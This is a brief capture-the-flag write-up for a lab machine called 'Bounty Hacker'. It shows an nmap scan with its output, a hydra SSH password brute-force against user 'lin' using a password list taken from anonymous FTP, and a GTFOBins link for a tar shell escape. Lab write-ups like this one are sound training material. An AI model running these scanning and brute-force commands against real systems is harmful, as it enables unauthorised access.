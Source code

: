 ## Bounty Hacker

### 🍨nmap
```
nmap -Pn -sC -sV -sT 10.10.76.78 -vv
```
```
Discovered open port 80/tcp on 10.10.76.78
Discovered open port 21/tcp on 10.10.76.78
Discovered open port 22/tcp on 10.10.76.78

Completed Connect Scan at 14:03, 18.27s elapsed (1000 total ports)
Not shown: 967 filtered tcp ports (no-response)
PORT      STATE  SERVICE         REASON       VERSION
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.95.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      c - secure, fast, stable
|_End of status
22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
zeubu mawaranino...tasukete-..

🚩 21 ftp(Anonymous FTP login allowed vsFTPd 3.0.3), 22 ssh, 80 http open

![image](https://user-images.githubusercontent.com/6504854/177257671-8e268471-ce79-45fe-84e6-31e93a1a2085.png)

![image](https://user-images.githubusercontent.com/6504854/177254658-5714cba4-1cce-41e9-b289-49e996107c17.png)

![image](https://user-images.githubusercontent.com/6504854/177254818-51630b9f-e2b7-4210-ace5-024c00fe8df6.png)


🚩 Now, we got 2 files. Lin's task list(task_local.txt) and passwordlist? or something(locks_local.txt).

```
hydra -l lin -P locks_local.txt ssh://10.10.76.78 -vv
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-05 13:42:03
[22][ssh] host: 10.10.76.78   login: lin   password: ******************
[STATUS] attack finished for 10.10.76.78 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

### 🍨flag
![image](https://user-images.githubusercontent.com/6504854/177256105-664be3f5-551e-403e-9522-f56ebaab5683.png)

https://gtfobins.github.io/gtfobins/tar/#shell

:smile: Thank you for your time. Have a good day!


### 🍨Omake
![image](https://user-images.githubusercontent.com/6504854/177256663-ba2abd83-b09a-439f-84ea-6c85318a1a90.png)

(#｀皿´) DoSﾀﾞｹｶﾖ...ﾍﾟｯ

